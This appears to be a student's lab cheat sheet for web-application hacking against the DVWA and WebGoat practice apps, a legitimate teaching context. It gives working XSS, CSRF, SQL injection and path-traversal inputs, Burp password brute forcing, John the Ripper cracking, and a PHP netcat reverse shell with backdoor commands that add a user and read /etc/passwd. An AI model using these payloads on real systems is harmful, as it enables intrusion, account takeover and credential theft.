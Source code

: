 # EHD Web Application Cheat Sheet

###### tags: `EHD`

## XSS
- Trigger alert in textbox input (Type into textbox)
```html
<script>alert("Hello!")</script>
```

- Redirect to another page (Type into textbox)
```html
<script>document.location="https://www.google.com"</script>
```

- If there is a maximum length limit for text input, inspect and modify the input element
![](https://i.imgur.com/e4sSKVf.png)

- Creating a fake form (type into textbox):
```html
<form>
Input1: <input type="text"><br>
Input2: <input type="text"><br>
<input type="submit" value="submit button">
</form>
```

## CSRF
- Create a CSRF page with the following contents:
- **Example 1:** Contains image with source to change credentials
```html
<!--
Comments:
- Replace Win10-IP with own Win10 VM IP Address
- Image source set to URI dusplayed when admin password is changed
-->
This is a very new web page
<img width="1" src="http://Win10-IP/dvwa-master/vulnerabilities/csrf/?password_new=12345678&password_conf=12345678&Change=Change">
```

- **Example 2:** Contains 1x1 small iframe to manipulate website data
```html
<iframe width="1" height="1" src="https://www.imdb.com/title/tt0803096"></iframe><br>
Good Day!
```

## Command Injection
- Type IP of other machines, followed by `&& dir c:\
- Directory listing of C drive in Win10 VM shown

## SQL Injection
- Basic injection command:
```sql
ppp' or '0' = '0
```

- Retrieve more columns from table:
```sql
ppp' or '0' = '0' union select column1, column2 from table --
```

- Retrieve `information_schema` from database
```sql
ppp' or '0' = '0' union select table_schema, table_name from information_schema.tables --
```

## John The Ripper
- Crack hashed passwords inside <u>password.txt</u>
```
sudo john password.txt
```

- Run John The Ripper with various suggested formats
```
sudo john --format=raw-md5 password.txt
```

## Forced Browsing
- Manipulate the value contained in `page=` to find hidden files
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file4.php
```

## File Inclusion
- Change URL below to get non-existent page and get error to find full path of page
```
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=include2.php
```

- Find configuration file of Apache Web Server
```
http://Win-10/dvwa-master/vulnerabilities/fi/?page=..\..\..\..\apache\conf\httpd.conf
```

## Burp Suite
### Setting Up
- Launch Burp Suite
```
sudo burpsuite
```

- Browse to DVWA on Kali VM
```
http://192.168.10.100/dvwa-master
```

> Ensure that Windows Firewall not blocking access to DVWA (Add Exception Port 80 if needed)

- Configure proxy in Firefox browser
![](https://i.imgur.com/dN1y4gW.png)


- Go to **Proxy** tab and 

### Brute Force Password with Dictionary Lists
- Create new files and store list of usernames
- Create another new file with list of passwords
- Turn on Intercept in **Proxy** tab
- Login with credentials in DVWA
- Forward packets intercepted by Burp until username and password found
- Click **Action** -> **Send to Intruder** -> **Positions**
- Request sent with parameters highlighted
- Add username and password to get username and password payloads
- Set attack type to **cluster bomb**
- Set one payload for username and one payload for password
- Load username and password list in respective payloads
- Check **Store requests** and **Store responses**
- Start Attack
- View results in **Response** tab
- Find request with <u>correct</u> response

> Use **Grep -Match** and enter keyword to search in the **Add** textbox to find matching keywords from the results

## File Upload: Malicious Files 
![](https://i.imgur.com/poKARAw.png)

- To browse to uploaded file:
```
http://Win10-IP/dvwa-master/hackable/uploads/uploaded.file
```

### Backdoor
- List web shell languages:
```
ls /usr/share/webshells/
```

- Languages supported by DVWA:
```
sudo nmap -sV -p 80 <Win10-IP>
```

![](https://i.imgur.com/bdavvg8.png)

- List contents of `php` directory and make simple backdoor script and upload it to DVWA

![](https://i.imgur.com/kxDH0PZ.png)

> **Troubleshooting!**
> If script runs and gets removed, disable Windows Defender and upload the file and run it again!

- Backdoor can run commands from the URL
![](https://i.imgur.com/HJivVJH.png)
![](https://i.imgur.com/uIvJQqO.png)
```
cat /etc/passwd
net user secretuser 1q2w3e4r! /add
```

- Netcat Reverse Shell for Windows
```php
<?php
	header("Content-type: text/plain");
	$ip = "Kali-IP";  // Change to Kali IP
	$port = "443";    // Change to any port number not in use
	$cmd = "nc.exe -e cmd.exe ".$ip." ".$port;
	echo "\nExecuting : ".$cmd."\n";
	$output = system($cmd)
?>	
```

- Run Netcat on Kali to listen to port
```
sudo nc -l -p <port-number>
```

- Upload Netcat reverse shell and `nc.exe` on the file to DVWA file upload
- Browse to Reverse Shell
```
http://Win10-IP/dvwa-master/hackable/uploads/nc-reverse-shell.php
```

## WebGoat
- Default port: 8080
- Run command to change port of WebGoat:
```
java -jar webgoat-server-nnnn.jar --server.port=9090
```

- Configure the following proxy settings `about:config` in Firefox browser
![](https://i.imgur.com/H4UQAhV.png)

### Bypass Front-End Restrictions
- Connect browser to Burp Proxy and enable **Intercept** on Burp
- Forward packets until submitted form is found
	- Inputs can be modified below
![500](https://i.imgur.com/8h2pCRH.png)

### Authentication Bypass
- Intercept security questions with Burp and modify request such that security questions are always true
![550](https://i.imgur.com/jMtIc1F.png)
![](https://i.imgur.com/UNyKKBx.png)

### Insecure Direct Object Reference
 
